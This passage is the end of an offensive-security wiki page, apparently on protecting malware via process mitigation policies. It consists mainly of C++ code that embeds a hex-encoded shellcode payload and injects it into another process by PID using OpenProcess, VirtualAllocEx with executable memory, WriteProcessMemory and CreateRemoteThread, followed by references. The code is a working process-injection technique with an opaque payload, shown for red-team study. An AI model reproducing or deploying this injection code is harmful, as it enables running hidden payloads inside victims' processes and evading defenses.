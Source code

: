 ```cpp
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
}

```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://blog.xpnsec.com/protecting-your-malware/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setprocessmitigationpolicy" %}
@spotheplanet
